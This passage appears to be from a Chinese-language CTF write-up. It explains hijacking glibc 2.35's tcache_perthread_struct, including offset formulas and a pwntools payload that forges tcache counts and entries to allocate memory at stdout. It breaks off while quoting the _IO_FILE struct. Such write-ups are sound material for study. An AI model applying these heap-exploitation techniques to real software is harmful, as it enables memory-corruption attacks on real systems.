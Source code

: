 ```c
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

根据这个结构体，可以计算出0xf0大小的tcache块位于堆基址的偏移
```python
word_bytes = context.word_size // 8 # i386->word_size=32  amd64->word_size=64
target = 0xf0

# glibc-2.30之前
offset = 0x10 + 0x40 + (target-0x20)//0x10 * word_bytes

# glibc-2.30及以后
offset = 0x10 + 0x80 + (target-0x20)//0x10 * word_bytes
```
本题是glibc-2.35，利用第二个公式，计算出offset为0xf8
我们将`heap_base + 0xf8`这里的值覆盖为`heap_base + 0x10`
当我们申请0xe0大小的空间时(利用解包过程中会申请与content大小相同的空间)，便会申请到`heap_base+0x10`开始的写权限
即可劫持`tcache_perthread_struct`，实现堆任意分配

看看我们改之后的`tcache_perthread_struct`
```python
# 伪造counts
payload  = p16(0)*2+p16(1)+p16(1)+p16(0)*5+p16(1)
payload  = payload.ljust(0x80,b'\x00')

# 伪造entrtes
payload += p64(0)*2+p64(stdout)+p64(stdout)+p64(0)*5+p64(heap_base+0x10)
payload  = payload.ljust(0xe0,b"\x00")
```
我们将0x40,0x50,0xb0的counts修改为1
并将对应的0x40,0x50大小的entries改为stdout结构体的位置
将对应0xb0大小的堆块改为`heap_base+0x10`，以便继续控制`tcache_perthread_struct`
最后调整为0xe0，在解包过程中，会申请0xf0大小的chunk，也就是`tcache_perthread_struct`，然后将content填进去，也就实现了篡改`tcache_perthread_struct`

### stdout
```c
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
```